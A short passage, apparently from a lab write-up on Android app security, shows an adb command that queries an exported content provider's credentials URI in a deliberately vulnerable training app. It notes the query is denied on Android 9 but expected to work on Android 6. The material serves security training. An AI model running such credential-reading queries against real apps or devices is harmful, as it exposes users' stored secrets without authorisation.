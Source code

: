> ![](.gitbook/assets/image-20240110084500958.png)
>
> Exploit the vulnerability, by interacting with the insecure content provider.
>
> ```bash
> adb shell content query --uri content://com.elearnsecurity.injectme.provider.CredentialProvider/credentials
> 
> # Permission denied on Android 9 (API Level 28) device
> ```
>
> - Try the same on an Android 6 (API level 23) device, permissions should be granted.
>